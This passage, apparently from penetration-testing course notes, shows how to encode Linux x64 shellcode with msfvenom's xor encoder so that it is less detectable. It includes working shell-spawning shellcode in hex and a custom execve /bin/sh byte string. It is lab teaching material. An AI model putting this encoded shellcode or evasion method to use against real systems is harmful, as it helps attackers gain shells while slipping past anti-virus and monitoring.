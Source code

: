 

### Shellcode Encoding
- Another great benefit of using these tools is to encode our shellcodes without manually writing our encoders. 
- Encoding shellcodes can become a handy feature for systems with anti-virus or certain security protections. 
- However, it must be noted that shellcodes encoded with common encoders may be easy to detect.
- We can use `msfvenom` to encode our shellcodes as well. 
- We can first list available encoders.
```shell-session
secmancer@htb[/htb]$ msfvenom -l encoders

Framework Encoders [--encoder <value>]
======================================
    Name                          Rank       Description
    ----                          ----       -----------
    cmd/brace                     low        Bash Brace Expansion Command Encoder
    cmd/echo                      good       Echo Command Encoder

<SNIP>
```
- Then we can pick one for `x64`, like `x64/xor`, and use it with the `-e` flag, as follows.
```shell-session
secmancer@htb[/htb]$ msfvenom -p 'linux/x64/exec' CMD='sh' -a 'x64' --platform 'linux' -f 'hex' -e 'x64/xor'

Found 1 compatible encoders
Attempting to encode payload with 1 iterations of x64/xor
x64/xor succeeded with size 87 (iteration=0)
x64/xor chosen with final size 87
Payload size: 87 bytes
Final size of hex file: 174 bytes
4831c94881e9faffffff488d05efffffff48bbf377c2ea294e325c48315827482df8ffffffe2f4994c9a7361f51d3e9a19ed99414e61147a90aac74a4e32147a9190022a4e325c801fc2bc7e06bbbafc72c2ea294e325c
```
- Let's try running the encoded shellcode to see if it runs.
```shell-session
secmancer@htb[/htb]$ python3 loader.py 
'4831c94881e9faffffff488d05efffffff48bbf377c2ea294e325c48315827482df8ffffffe2f4994c9a7361f51d3e9a19ed99414e61147a90aac74a4e32147a9190022a4e325c801fc2bc7e06bbbafc72c2ea294e325c'

$ whoami

root
```
- As we can see, the encoded shellcode works as well while being a little bit less detectable by security monitoring tools.
- Tip: We can encode our shellcode multiple times with the `-i COUNT` flag, and specify the number of iterations we want.
- We see that the encoded shellcode is always significantly larger than the non-encoded one since encoding a shellcode adds a built-in decoder for runtime decoding. 
- It may also encode each byte multiple times, which increases its size at every iteration.
- If we had a custom shellcode that we wrote, we could use `msfvenom` to encode it as well, by writing its bytes to a file and then passing it to `msfvenom` with `-p -`, as follows.
```shell-session
secmancer@htb[/htb]$ python3 -c "import sys; sys.stdout.buffer.write(bytes.fromhex('b03b4831d25248bf2f62696e2f2f7368574889e752574889e60f05'))" > shell.bin
secmancer@htb[/htb]$ msfvenom -p - -a 'x64' --platform 'linux' -f 'hex' -e 'x64/xor' < shell.bin

Attempting to read payload from STDIN...
Found 1 compatible encoders
Attempting to encode payload with 1 iterations of x64/xor
x64/xor succeeded with size 71 (iteration=0)
x64/xor chosen with final size 71
```